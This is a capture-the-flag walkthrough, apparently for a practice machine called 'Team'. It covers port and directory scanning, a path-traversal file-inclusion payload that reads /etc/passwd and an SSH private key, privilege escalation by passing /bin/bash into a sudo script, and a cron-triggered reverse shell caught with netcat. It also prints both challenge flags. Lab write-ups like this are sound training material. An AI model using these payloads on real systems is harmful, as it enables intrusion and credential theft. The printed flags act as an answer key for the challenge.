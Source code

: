 # Team

* IP = 10.10.233.233

## Questions/Tasks:

* Starting with basic Nmap scan to find all open ports on the server:<br>
`nmap -sC -sV -v $IP`

* Nmap Scan Results:
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
|_  256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add \'te...
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

* Since port 80 is open, search for any other directories with gobuster:<br>
`gobuster -u "http://IP/" -w common.txt`

* GoBuster Scan Results:
```bash
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
```
* FTP is open with no anonymous login permit😮‍💨.
* The webpage when opened in browser shows the *Apache Default page*:<br>
![Screenshot](./assets/2.png)
* Checking the source of the page, we find this line:<br>
![Screenshot](./assets/1.png)
* Edit the `/etc/hosts` file in your machine and add the line:<br>
```
10.10.233.233 team.thm
```
* Now visiting http://team.thm, we're brought to this page:<br>
![Screenshot](./assets/3.png)
* Start a second gobuster scan on http://team.thm :
* Second Scan results:
```bash
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/assets (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/scripts (Status: 301)
/server-status (Status: 403)
```
* Inside *robots.txt* there's only one word: `dale`, maybe its an username.🤔🤔
* I was completely stuck at this stage, but seeing the hint I figured we need to add `dev.team.thm` to the same line in `/etc/hosts`: `10.10.233.233   dev.team.thm team.thm`
* Opening http://dev.team.thm in browser, we are brought here:<br>
![Screenshot](./assets/4.png)
* Following the hint, I supposed that it might be a Local file inclusion vulnerability, hence tried this payload:<br>
`http://dev.team.thm/script.php?page=./../../../etc/passwd`, since the main webpage remains in `/var/www/html/`, hence we need to traverse 3 times to get into root of filesystem.
![Screenshot](./assets/5.png)
* Thus we can confirm that the page has indeed LFI.
* Similarly we tried this out: `http://dev.team.thm/script.php?page=./../../../home/dale/user.txt`.
* And just like that we got the user flag!!🤗


1. user.txt

**Ans-THM{6Y0TXHz7c2d}**


* Burp Suite made the job easy and found the list for us:<br>
![Screenshot](./assets/burp.png)
* Hence we visited: `http://dev.team.thm/script.php?page=./../../../etc/ssh/sshd_config` and got a ssh private key for `Dale`:<br>
![Screenshot](./assets/6.png)
* Copy the RSA Private Key to local machine, change permissions with `chmod 600 id_rsa`, then ssh into server with:
`ssh -i id_rsa dale@IP`<br>
![Screenshot](./assets/7.png)
* `sudo -l` gives the following output:<br>
![Screenshot](./assets/8.png)
* So, probably we need to escalate privileges to `Gyles` then to root.
* Carefully look at the script, the error variable is directly executed in the script itself...so we can supply `/bin/bash` and become *gyles*
* Now run the script with `sudo` and supply `/bin/bash` when prompted for date:<br>
![Screenshot](./assets/9.png)
* Thus we can get a barebone shell, and we can elevate the shell with:`python3 -c 'import pty; pty.spawn("/bin/bash")'`
* The `.bash_history` of gyles has a strange file in /usr/local/bin:<br>
![Screenshot](./assets/10.png)
* The `admin` group in which gyles is a member has write, read and execute permissions:<br>
![Screenshot](./assets/11.png)<br>
* Edit the file like this:<br>
![Screenshot](./assets/12.png)
* In order to get a reverse shell with root privileges. (The above code snippet was taken from <a href="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">Pentestmonkey RevShell Cheat Sheet</a>)
* Set up a netcat listener on local machine with: `nc -lnvp 4444`
* The file will be automatically run by root as it is a *cronjob*.
* Thus we get a root shell connection back:<br>
![Screenshot](./assets/13.png)
* Find the root.txt there itself...

2. root.txt

**Ans-THM{fhqbznavfonq}**
